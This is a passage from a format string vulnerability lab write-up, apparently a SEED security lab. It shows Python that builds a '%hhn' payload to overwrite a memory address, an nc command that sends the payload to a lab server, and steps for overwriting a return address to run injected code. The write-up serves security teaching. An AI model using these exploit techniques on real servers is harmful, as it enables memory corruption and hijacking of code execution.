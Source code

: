 ```python
# Append format specifiers to prevent the program from crashing, access 0x080e506b and overwrite it's content
content += ("%.17x%hhn").encode('latin-1')

# Append format specifiers to prevent the program from crashing, access 0x080e506b and overwrite it's content
content += ("%.17x%hhn").encode('latin-1')

# Append format specifiers to prevent the program from crashing, access 0x080e506b and overwrite it's content
content += ("%.17x%hhn").encode('latin-1')

# Append a newline
content += ("\n").encode('latin-1')


# Write the content to badfile
with open('badfile', 'wb') as f:
  print(f"writing {len(content)} bytes to badfile...")
  f.write(content)
```

```bash
python3 badfile.py
cat badfile | nc -w2 10.9.0.5 9090
```

![task-3-e](https://github.com/iukadike/blog/assets/58455326/2eff533a-f05c-4706-a091-5d3b7e703def)



<br>

### Inject Malicious Code into the Server Program

This task involves injecting a piece of malicious code, in its binary format, into the server’s memory and then using the format string vulnerability.
to modify the return address field of a function, so when the function returns, it jumps to our injected code.

In order to inject malicious code into the server program, we would need to modify the value that is stored in the return address of the function we are exploiting. This lab has been designed in such a way that when the program runs, it prints out certain values for the student.

We would be needing two values:
- the frame-pointer address inside the vulnerable function
- the input buffer's address

From the information the server prints out, we can determine these values to be:
- ffffd188 (frame-pointer address)
- ffffd260 (input buffer's address)

When we build our attack string, it will consist of the following:
- the return address of the vulnerable function
  - frame-pointer address + 4
- the memory address of our malicious code:
  - the input buffer's address + (a value yet to be determined)
- the malicious code
